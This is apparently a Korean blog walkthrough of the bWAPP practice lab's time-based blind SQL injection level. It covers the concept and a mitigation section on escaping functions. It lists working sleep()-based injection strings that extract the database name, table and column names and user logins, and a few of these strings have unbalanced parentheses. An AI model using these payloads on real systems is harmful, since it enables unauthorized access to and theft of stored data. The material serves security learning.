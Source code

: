 ```yaml
---
title: "[bWAPP] 1. Injection - SQL Injection - Blind - Time-Based"
---
```


<br>

## Injection

공격자가 신뢰할 수 없는 입력을 프로그램에 주입하도록 하는 공격.

<br>

<br>

## SQL Injection

응용 프로그램 보안 상의 허점을 의도적으로 이용해, 

임의의 SQL문을 주입하여 악의적인 SQL문을 실행하게 함으로써

DB를 비정상적으로 조작하는 코드 인젝션의 대표적인 공격.

이로인해 공격자가 DB에 저장되어 있는 다른 사용자의 개인 정보 등 허가되지 않은 정보에 접근하여,

데이터 변조 및 조작 가능.

<br>

<br>

## Blind Injection

Blind SQL Injection으로 많이 사용

SQL인젝션 공격에는 쿼리 조건을 무력화하여 인증을 우회하거나,쿼리 결과에 정보를 붙여서 데이터를 유출하거나 시스템 명령어를 삽입하는 형태로 공격이 진행

하지만, 공격하는 대상 웹페이지가 어떤 오류도 출력하지 않고 쿼리 겨로가 리스트도 제공하지 않는다면 

Blind SQL Injection으로 쿼리 결과의 참/거짓을 통해 DB 값 유출해 내는 기법

<br>

### Time - Based

앞서 영화검색에서는 검색 결과의 유,무로만 참/거짓을 판별할 수 있었는데

어떤 경우애는 응답의 결과가 항상 동일하여 응답 결과만으로는 참/거짓을 판별할 수 없는 경우가 있다.

이럴 때는 시간을 지연시키는 쿼리를 주입하여 응답 시간의 차이로 참/거짓을 판별할 수 있는데

이 때 사용하는 공격기법이 Blind - Time SQL Injection 이다.

![image-20220317020316667](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317020316667.png)

- 참 거짓을 sleep 함수를 이용해 구분해보자

![image-20220317020532247](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317020532247.png)

- 참일 때 슬립이 걸리고

![image-20220317020555024](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317020555024.png)

- 거짓일 때는 걸리지 않는다.
- 이를 이용해서 Boolean-Based 와 같이 length, 대소문자구분, 대조를 통해 진행해보자

<BR>

### DB 조회

![image-20220317020736145](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317020736145.png)

`' or length(database())=1 and sleep(1)#`

- DB의 길이 구해주고

`' or ascii(substring(database(),1,1))>96 and sleep(1)#`

- 문자를 알아내야 하는데, ascii 명령어를 통해 대문자인지 소문자인지를 먼저 구분하고

`' or substring(database(),1,1)='a' and sleep(1)#`

- substring 명령어를 통해 database의 첫번쨰 위치의 길이 1값이 a가 맞는지 확인한다.

```sql
SUBSTR(str, pos, len)
```

- str에서 pos 번째 위치의 len개의 문자를 읽어 들임

`' or database()='bWAPP' and sleep(1)#`

- 그리고 마지막에 DB가 bWAPP이 맞는지 체크

<BR>

### 테이블 조회

![image-20220317021056545](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317021056545.png)

`' or length((select table_name from information_schema.tables where table_schema='bWAPP' limit 0,1))=4 and sleep(1)#`

- 길이 구해주고

`' or ascii(substring(select table_name from information_schema.tables where table_schema='bWAPP' limit 0,1),1,1))>96 and sleep(1) #`

- 대소문자 구분

`' or substring((select table_name from information_schema.tables where table_schema='bWAPP' limit 0,1),1,1)='a' and sleep(1) #`

- 문자 대조
- DB 처럼 bWAPP 이 맞는지 체크해줘도 된다.
- 난 안함 귀찮아서..(사실 함)

<BR>

### 컬럼 조회

![image-20220317021355018](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317021355018.png)

`' or length((select column_name from information_schema.columns where table_name='heroes' limit 0,1))=1 and sleep(1)#`

- 길이

`' or ascii(substring(select column_name from information_schema.columns where table_name='heroes' limit 0,1),1,1))>96 and sleep(1) #`

- 대소문자

`' or substring(select column_name from information_schema.columns where table_name='heroes' limit 0,1),1,1)='a' and sleep(1) #`

- 대조
- 말이 점점 짧아진다... 미안하다.

<BR>

### 컬럼 속성

![image-20220317021548387](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317021548387.png)

`' or length((select login from heroes limit 0,1))=3 and sleep(1)#`

- ㄱㅇ... 길이
- 거의 다 왔다 힘내자 친구들

`' or ascii(substring((select login from heroes limit 0,1),1,1))>96 and sleep(1)#`

- 말안해도 알지?
- 혹시 몰라 대소문자..

`' or substring((select login from heroes limit 0,1),1,1)='a' and sleep(1) #`

- 대조
- 끝까지 온 친구들의 노고에 박수를 보낸다.

<BR>

<BR>

## 대응방안

### Linux

![image-20220318002544545](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220318002544545.png)

![image-20220318002653266](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220318002653266.png)

- vi 편집기로 sqli_15.php 소스코드를 열어준다.
- level 1 : sqli_check_1 함수 사용
- level 2 : sqli_check_2 함수 사용

<br>

### functions_external.php

![image-20220317235926576](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317235926576.png)

- addslashes : 특수 문자(',",/) 앞에 역슬래시를 삽입하여 특수문자 기능을 문자로 이스케이프하는 함수
  - 인코딩된 태그나 스크립트가 들어오면 바로 디코딩되기 때문에 보안 허점 발생
- mysql_real_escape_string : PHP에서 SQL Injection 공격 등을 방어하기 위하여 특수 문자열을 이스케이프 하기 위한 함수
  - `\x00, \n, \r, \, ', ", \x1a`와 같은 문자 앞에 `\`(역슬레시)를 붙여서 해당 문자가 실제 작동하지 않도록 이스케이프 해준다.
  - addslashes 보다 처리할 수 있는 문자들이 더 많음
